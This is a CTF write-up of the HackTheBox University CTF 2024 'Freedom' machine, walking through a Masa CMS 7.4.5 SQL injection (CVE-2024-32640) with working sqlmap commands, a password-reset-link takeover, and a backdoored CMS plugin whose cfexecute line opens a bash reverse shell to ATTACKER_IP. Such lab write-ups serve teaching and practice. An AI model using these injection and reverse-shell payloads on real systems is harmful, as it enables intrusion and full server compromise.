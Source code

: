```yaml
---
layout: default
title: "HackTheBox University CTF 2024 - Freedom Writeup"
permalink: /writeups/ctf/HTB-University-CTF-2024/freedom
---
```


<h1><ins>HackTheBox University CTF 2024: Freedom Writeup</ins></h1>

**Date:** 18/12/2024\
**Author:** [acfirthh](https://github.com/acfirthh)

**Challenge Name:** Freedom\
**Difficulty:** Medium

## Reconaissance
### NMAP Scan
![NMAP Scan](images/nmap_scan.png)

From the NMAP scan, I immediately noticed that it had most of the common ports open that a Domain Controller would have *(also the hostname was **DC1**...)*, as well as having port 80 (HTTP) open hosting a website that NMAP was able to fetch the **robots.txt** entries from.

The website had the domain name **freedom.htb**.

> Add **freedom.htb** and **DC1.freedom.htb** to the /etc/hosts file.

## Initial Look at the Website
I started up **BurpSuite**, activated **foxy proxy** in my browser and visited **http://freedom.htb**.

![Freedom.htb Website](images/website.png)

I was met with this rather funky blog with 4 blog posts. I looked back at the NMAP scan at the entired form the **robots.txt** file and saw that `/admin/` was there, so of course, I browsed to that directory.

![Masa CMS Login](images/admin_page.png)

There was a login page for what seemed to be **"Masa CMS"**, but there wasn't a version number anywhere on the page, so looking at **BurpSuite** to see request and response headers sent in requests, I spotted that the version number was disclosed in a response header.

![Masa CMS Version](images/masa_cms_version.png)

The version running is **"Masa CMS 7.4.5"**, now equipped with this information, I took to the internet to research for potential vulnerabilities and exploits that have been found and disclosed for this version.

### SQL Injection
I discovered that there was a recent [SQL Injection](https://projectdiscovery.io/blog/hacking-apple-with-sql-injection) vulnerability found in **Masa CMS** marked **CVE-2024-32640** with a [Proof-of-Concept](https://www.pizzapower.me/2024/11/13/mura-masa-cms-sql-injection-cve-2024-32640/) Python script freely available.

Instead of using this PoC, I decided to just use **sqlmap** and quickly threw together a command to use:\
`sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject" --data "object=displayregion&contenthistid=x%5C'*--+Arrv&previewid=1" --level 3 --risk 2 --method POST --dbms=mysql --timeout=10 --technique=T --batch -D dbMasaCMS -T <table> -C <column/s>`

**Masa CMS** is also open-source, meaning the entire *(unmodified)* source code is available on their [GitHub repository](https://github.com/MasaCMS/MasaCMS).

Looking through the source code, I found a **.sql** file containing all of the table and column names created in the database during the intial setup! There was a table named **tusers** which contained the columns: **Fname**, **Lname**, **UserName**, **Email**, and **Password**.\
*(Amongst quite a few other columns, but I focussed on these mainly)*

I modified my **sqlmap** command to dump the data stored in these columns from the table, it revealed that the **Password** column contained **bcrypt** hashes. I initially attempted to crack these hashes, however I was unable to crack any of them.

## Initial Access
I looked back at the login page on the website and spotted a *"Forgot Password"* feature, I thought that if I clicked that and entered the email address of the admin user (`admin@freedom.htb`), then I would be able to find the password reset link in the database somewhere. I looked back through the source code and found a table named **tredirects** with a column called **URL**, this was the only reference I was able to spot to a URL in any of the tables.

So, I tested it out. I clicked the *"Forgot Password"* button, entered the admin's email address, and then used **sqlmap** to dump the data stored in the **URL** column in the **tredirects** table.

![Admin Password Reset](images/admin_password_reset.png)

`sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject" --data "object=displayregion&contenthistid=x%5C'*--+Arrv&previewid=1" --level 3 --risk 2 --method POST --dbms=mysql --timeout=10 --technique=T --batch -D dbMasaCMS -T tredirects -C URL --dump`

![Password Reset Link](images/password_reset_link.png)

I copied the retrieved link and pasted it into my browser, it opened up a profile editor for the admin user, I changed the password and submitted it, then it automatically logged me in after the password change! **SUCCESS!**

After reading back the initial SQL Injection vulnerability discovery post, I saw that they referenced that it would be possible to get **RCE** by uploading a malicious plugin. Doing some more research, I found out that **Masa CMS** and **Mura CMS** are pretty similar and use the same plugins and language, so I downloaded a pre-made **Mura CMS** plugin and mofidied the code to run malicious code when installed.

#### Backdooring the Plugin
When reading the NMAP scan results, I spotted that it said that the web server was running on **Apache** for **Ubuntu** which I thought was a bit odd because it was supposedly a Domain Controller which are usually **Windows Server** based. But I just thought that maybe it was running in a **Docker** container or something similar.

I modified the `index.cfm` page in the plugin to contain only this code:

```
<cfexecute name="/bin/bash" arguments="-c '/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1
'" variable="data" timeout="10" />
<cfdump var="#data#">
```

I then modified the `Application.cfc` to only inlude the `index.cfm` and the `settings.cfm` files. This would mean that it only executes my malicious code and doesn't do anything I don't want it to.

```
component accessors=true output=false {

	property name='$';

	include 'plugin/settings.cfm';

	public any function onApplicationStart() {
		return true;
	}

	public any function onRequestStart(required string targetPage) {
		return true;
	}

	public void function onRequest(required string targetPage) {
		include 'index.cfm';
	}

	public void function onSessionStart() {
	}

	public void function onSessionEnd() {
	}

}
```

After modifying the code, I simply zipped it up using the command:\
`zip -r plugin.zip ./MuraPlugin`

After zipping up the plugin contents, I browsed to the plugin upload page on the admin console and uploaded my modified plugin.

![Plugin Upload](images/upload_plugin.png)

I started a listener on my machine:\
`nc -nvlp 4444`

I then clicked *"deploy"* and then clicked the *"UPDATE"* button to run my plugin. I checked my listener but I didn't have a callback just yet, so I visited the index page of the plugin in my browser:\
`http://freedom.htb/plugins/MuraPlugin/index.cfm`

Again, I checked my listener and I had a shell as... **root!**

![Root Shell](images/root_shell.png)

I looked about the file system but didn't find any flags, I also noticed that it was NOT a **Docker** container.

I then ran the command `mount` to view any mounted filesystems and spotted a filesystem mounted at `/mnt/c`. I changed directory into it and saw that it was a **Windows** filesystem! This must have been where all of the Domain Controller processes were being run. But, I had full root access to the filesystem so I just got the flags from the **Administrator** user's desktop and **j.bret** user's desktop!

## Final Words
This route was defiitely unintended as there was no need for any sort of privilege escalation and it gave immediate root access to the filesystem. But nevertheless, it was still an incredibly fun challenge with plenty of enumeration needed to find what was needed to exploit the machine.